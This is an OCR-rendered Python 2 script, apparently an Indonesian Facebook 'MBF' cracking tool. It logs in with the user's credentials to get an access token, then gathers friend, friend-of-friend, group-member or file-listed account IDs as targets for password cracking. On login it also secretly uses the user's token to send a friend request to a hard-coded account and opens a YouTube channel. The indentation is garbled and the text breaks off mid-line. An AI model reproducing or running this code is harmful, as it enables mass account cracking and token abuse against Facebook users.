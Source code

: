 #!/usr/bin/python2
# coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]


def keluar():
	print "\033[1;96m[!] \x1b[1;91mExit"
		os.sys.exit()
def acak(x):
    w = 'mhkbpcP'
        d = ''
            for i in x:
                    d += '!'+w[random.randint(0,len(w)-1)]+i
                        return cetak(d)
def cetak(x):
    w = 'mhkbpcP'
        for i in w:
                j = w.index(i)
                        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
                            x += '\033[0m'
                                x = x.replace('!0','\033[0m')
                                    sys.stdout.write(x+'\n')

def jalan(z):
	for e in z + '\n':
			sys.stdout.write(e)
					sys.stdout.flush()
							time.sleep(0.05)
logo = """  \x1b[1;93m______   \x1b[1;92m_______  \x1b[1;94m______    \x1b[1;91m___   _\n \x1b[1;93m|      | \x1b[1;92m|   _   |\x1b[1;94m|    _ |  \x1b[1;91m|   | | |\n \x1b[1;93m|  _    |\x1b[1;92m|  |_|  |\x1b[1;94m|   | ||  \x1b[1;91m|   |_| |\n \x1b[1;93m| | |   |\x1b[1;92m|       |\x1b[1;94m|   |_||_ \x1b[1;91m|      _|\n \x1b[1;93m| |_|   |\x1b[1;92m|       |\x1b[1;94m|    __  |\x1b[1;91m|     |_ \n \x1b[1;93m|       |\x1b[1;92m|   _   |\x1b[1;94m|   |  | |\x1b[1;91m|    _  |\n \x1b[1;93m|______| \x1b[1;92m|__| |__|\x1b[1;94m|___|  |_|\x1b[1;91m|___| |_| \x1b[1;96mFB\n\n \x1b[1;95m●Facebook.com/Radit Wong Rematas▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\n ✫╬─ \x1b[1;92mReCode \x1b[1;91m: \x1b[1;93mAzazel                    \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mFB    \x1b[1;92m \x1b[1;91m: \x1b[1;96mFacebook.com/theomalip     \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mGitHub \x1b[1;91m: \x1b[1;94mGithub.com/storiku     \x1b[1;95m─╬✫\n ●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●
"""

def tik():
	titik = ['.   ','..  ','... ']
		for o in titik:
				print("\r\033[1;96m[●] \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1)

back = 0
threads = []
berhasil = []
cekpoint = []
oks = []
id = []
listgrup = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

def siapa():
	os.system('clear')
		nama = raw_input("\033[1;97mSiapa nama kamu ? \033[1;91m: \033[1;92m")
			if nama =="":
					print"\033[1;96m[!] \033[1;91mIsi yang benar"
							time.sleep(1)
									siapa()
										else:
												os.system('clear')
														jalan("\033[1;97mSelamat datang \033[1;92m" +nama+ "\n\033[1;97mTerimakasih telah menggunakan tools ini !!")
																time.sleep(1)
																		loginSC()
def loginSC():
	os.system('clear')
		print"\033[1;97mSilahkan login SC nya dulu bosque\n"
			username = raw_input("\033[1;96m[*] \033[1;97mUsername \033[1;91m: \033[1;92m")
				password = raw_input("\033[1;96m[*] \033[1;97mPassword \033[1;91m: \033[1;92m")
					if username =="dark" and password =="aku123":
							print"\033[1;96m[✓] \033[1;92mLogin success"
									time.sleep(1)
											login()
												else:
														print"\033[1;96m[!] \033[1;91mSalah!!"
																time.sleep(1)
																                LoginSC()
def login():
	os.system('clear')
		try:
				toket = open('login.txt','r')
						menu() 
							except (KeyError,IOError):
									os.system('clear')
											print logo
													print 42*"\033[1;96m="
															print('\033[1;96m[☆] \x1b[1;93mLOGIN AKUN FACEBOOK ANDA \x1b[1;96m[☆]' )
																	id = raw_input('\033[1;96m[+] \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m')
																			pwd = raw_input('\033[1;96m[+] \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m')
																					tik()
																							try:
																										br.open('https://m.facebook.com')
																												except mechanize.URLError:
																															print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
																																		keluar()
																																				br._factory.is_html = True
																																						br.select_form(nr=0)
																																								br.form['email'] = id
																																										br.form['pass'] = pwd
																																												br.submit()
																																														url = br.geturl()
																																																if 'save-device' in url:
																																																			try:
																																																							sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
																																																											data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
																																																															x=hashlib.new("md5")
																																																																			x.update(sig)
																																																																							a=x.hexdigest()
																																																																											data.update({'sig':a})
																																																																															url = "https://api.facebook.com/restserver.php"
																																																																																			r=requests.get(url,params=data)
																																																																																							z=json.loads(r.text)
																																																																																											unikers = open("login.txt", 'w')
																																																																																															unikers.write(z['access_token'])
																																																																																																			unikers.close()
																																																																																																							print '\n\033[1;96m[✓] \x1b[1;92mLogin Berhasil'
																																																																																																											requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
																																																																																																															os.system('xdg-open https://www.youtube.com/omaliptv')
																																																																																																																			menu()
																																																																																																																						except requests.exceptions.ConnectionError:
																																																																																																																										print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
																																																																																																																														keluar()
																																																																																																																																if 'checkpoint' in url:
																																																																																																																																			print("\n\033[1;96m[!] \x1b[1;91mSepertinya akun anda kena checkpoint")
																																																																																																																																						os.system('rm -rf login.txt')
																																																																																																																																									time.sleep(1)
																																																																																																																																												keluar()
																																																																																																																																														else:
																																																																																																																																																	print("\n\033[1;96m[!] \x1b[1;91mPassword/Email salah")
																																																																																																																																																				os.system('rm -rf login.txt')
																																																																																																																																																							time.sleep(1)
																																																																																																																																																										login()
def menu():
	os.system('clear')
		try:
				toket=open('login.txt','r').read()
					except IOError:
							os.system('clear')
									print"\033[1;96m[!] \x1b[1;91mToken invalid"
											os.system('rm -rf login.txt')
													time.sleep(1)
															keluar()
																try:
																		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
																				a = json.loads(otw.text)
																						nama = a['name']
																								id = a['id']
																									except KeyError:
																											os.system('clear')
																													print"\033[1;96m[!] \033[1;91mToken invalid"
																															os.system('rm -rf login.txt')
																																	time.sleep(1)
																																			login()
																																				except requests.exceptions.ConnectionError:
																																						print"\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
																																								keluar()
																																									os.system("clear")
																																										print logo
																																											print 42*"\033[1;96m="
																																												print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Nama \033[1;91m: \033[1;92m"+nama+"\033[1;97m                  "
																																													print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
																																														print 42*"\033[1;96m="
																																															print "\x1b[1;97m1.\x1b[1;93m Hack facebook MBF"
																																																print "\x1b[1;97m2.\x1b[1;93m Lihat daftar grup               "
																																																	print "\x1b[1;97m3.\x1b[1;93m Informasi akun               "
																																																		print "\x1b[1;97m4.\x1b[1;93m Yahoo clone               "
																																																			print "\n\x1b[1;91m0.\x1b[1;91m Logout            "
																																																				pilih()

def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
		if unikers =="":
				print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
						pilih()
							elif unikers =="1":
									super()
										elif unikers =="2":
												grupsaya()
													elif unikers =="3":
															informasi()
																elif unikers =="4":
																		yahoo()
																			elif unikers =="0":
																					os.system('clear')
																							jalan('Menghapus token')
																									os.system('rm -rf login.txt')
																											keluar()
																												else:
																														print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
																																pilih()
def super():
	global toket
		os.system('clear')
			try:
					toket=open('login.txt','r').read()
						except IOError:
								print"\033[1;96m[!] \x1b[1;91mToken invalid"
										os.system('rm -rf login.txt')
												time.sleep(1)
														keluar()
															os.system('clear')
																print logo
																	print 42*"\033[1;96m="
																		print "\x1b[1;97m1.\x1b[1;93m Crack dari daftar teman"
																			print "\x1b[1;97m2.\x1b[1;93m Crack dari teman"
																				print "\x1b[1;97m3.\x1b[1;93m Crack dari member grup"
																					print "\x1b[1;97m4.\x1b[1;93m Crack dari file"
																						print "\n\x1b[1;91m0.\x1b[1;91m Kembali"
																							pilih_super()
def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
		if peak =="":
				print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
						pilih_super()
							elif peak =="1":
									os.system('clear')
											print logo
													print 42*"\033[1;96m="
															jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...')
																	r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
																			z = json.loads(r.text)
																					for s in z['data']:
																								id.append(s['id'])
																									elif peak =="2":
																											os.system('clear')
																													print logo
																															print 42*"\033[1;96m="
																																	idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m")
																																			try:
																																						jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
																																									op = json.loads(jok.text)
																																												print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama teman\033[1;91m :\033[1;97m "+op["name"]
																																														except KeyError:
																																																	print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan!"
																																																				raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
																																																							super()
																																																									jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...')
																																																											r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
																																																													z = json.loads(r.text)
																																																															for i in z['data']:
																																																																		id.append(i['id'])
																																																																			elif peak =="3":
																																																																					os.system('clear')
																																																																							print logo
																																																																									print 42*"\033[1;96m="
																																																																											idg=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ')
																																																																													try:
																																																																																r=requests.get('https://graph.facebook.com/group/?id='+idg+'&access_token='+toket)
																																																																																			asw=json.loads(r.text)
																																																																																						print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name']
																																																																																								except KeyError:
																																																																																											print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan"
																																																																																														raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
																																																																																																	super()
																																																																																																			jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...')
																																																																																																					re=requests.get('https://graph.facebook.com/'+idg+'/members?fields=name,id&limit=999999999&access_token='+toket)
																																																																																																							s=json.loads(re.text)
																																																																																																									for p in s['data']:
																																																																																																												id.append(p['id'])
																																																																																																													elif peak =="4":
																																																																																																															os.system('clear')
																																																																																																																	print logo
																																																																																																																			print 42*"\033[1;96m="
																																																																																																																					try:
																																																																																																																								idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mMasukan nama file  \x1b[1;91m: \x1b[1;97m')
																																																																																																																											for line in open(idlist,'r').readlines():
																																																																																																																															id.append(line.strip())
																																																																																																																																	except IOError:
																																																																																																																																				print '\x1b[1;96m[!] \x1b[1;91mFile tidak ditemukan'
																																																																																																																																							raw_input('\n\x1b[1;96m[ \x1b[1;97mKembali \x1b[1;96m]')
																																																																																																																																										super()
																																																																																																																																											elif peak =="0":
																																																																																																																																													menu()
																																																																																																																																														else:
																																																																																																																																																print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
																																																																																																																																																		pilih_super()
	print "\033[1;96m[+] \033[1;93mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
		titik = ['.   ','..  ','... ']
			for o in titik:
					print("\
